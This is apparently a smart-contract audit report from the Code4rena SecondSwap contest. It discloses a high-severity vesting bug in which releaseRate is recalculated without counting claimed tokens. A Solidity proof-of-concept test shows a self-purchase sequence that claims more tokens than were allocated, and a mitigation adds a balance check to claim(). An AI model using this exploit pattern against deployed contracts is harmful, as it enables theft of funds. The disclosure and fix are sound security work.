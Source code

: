 +++
start-date = "2024-12-10"
end-date = "2024-9-10"
total-time = "NA"
author = "0xSolus"
+++

# Audit Contest Details 
[Second Swap](https://code4rena.com/audits/2024-12-secondswap)  


# Findings Summary

| ID     | Title                                                                               | Severity 
| ------ | ----------------------------------------------------------------------------------- | -------- 
| [H-01] | Incorrect calculation of releaseRate allows user to claim more funds than allocated | High     


# Detailed Findings

## [H-1] Incorrect calculation of releaseRate allows user to claim more funds than allocated.

### Summary
The `SecondSwap_StepVesting::transferVesting()` function incorrectly recalculates 
the `releaseRate` for the `_grantor` after transferring tokens. The calculation does 
not account for the tokens that have already been claimed `amountClaimed`. 
This allows a malicious user to increase the releaseRate, granting them access 
to claim more tokens than allocated.

### POC
[PoC](https://gist.github.com/noahfigueras/35b5a5dcff49c3490299218e1ad0d059)
```solidity
  function test_exploitVesting() public {
    // Attacker is the beneficiary of 100 tokens.
    address vestingPlan = _vestingDeployer(100e18);

    // We assume vestingPlan has some liquidity.
    vestingT.mint(address(vestingPlan), 100 ether);

    // User claims after 5 days - (gets 50 tokens back)
    vm.warp(block.timestamp + 5 days);
    vm.startPrank(attacker);
    SecondSwap_StepVesting v = SecondSwap_StepVesting(vestingPlan);
    v.claim(); 

    // We list 50 tokens for sale (maximum).
    marketplace.listVesting(
      vestingPlan,
      50e18,
      1, // Lower price possible 1 wei x token
      5000,
      SecondSwap_Marketplace.ListingType.SINGLE,
      SecondSwap_Marketplace.DiscountType.NO,
      5,
      address(usdt),
      1,
      false
    );

    // We can still claim some free tokens here as claim() doesn't check that we 
    // exceeded the maximum amount of tokens. 
    // In this case we can still claim (releaseRate * claimableSteps).
    // 5e18 * 4 = 20e18 (tokens for free)
    vm.warp(block.timestamp + 5 days - 500);
    v.claim();
    vm.stopPrank();

    // We buy our own listing with another address for 50 wei and we get 50 tokens back
    // NOTE: This will only work if buyer is another address due to the update
    // of vestings in _createVesting()
    vm.startPrank(attacker2);
    usdt.approve(address(marketplace), 100);
    marketplace.spotPurchase(vestingPlan, 0, 50e18, address(0x0));

    // We claim those tokens back
    vm.warp(block.timestamp + 1 days);
    v.claim();

    vm.stopPrank();

    // We end up with 20 more tokens
    totalTokens = vestingT.balanceOf(attacker) + vestingT.balanceOf(attacker2);
    console.log(totalTokens);
  }

```

### Mitigation
Consider checking for excess balance in `SecondSwap_StepVesting::claim()`.
```solidity
  function claim() external {
    (uint256 claimableAmount, uint256 claimableSteps) = claimable(msg.sender);
    require(claimableAmount > 0, "SS_StepVesting: nothing to claim");

    Vesting storage vesting = _vestings[msg.sender];
    vesting.stepsClaimed += claimableSteps;
    vesting.amountClaimed += claimableAmount;

    require(
      vesting.amountClaimed <= vesting.totalAmount,
      "SS_StepVesting: balance exceeded"
    );
    token.safeTransfer(msg.sender, claimableAmount); //  3.6. DOS caused by the use of transfer and transferFrom functions
    emit Claimed(msg.sender, claimableAmount);
  }

```


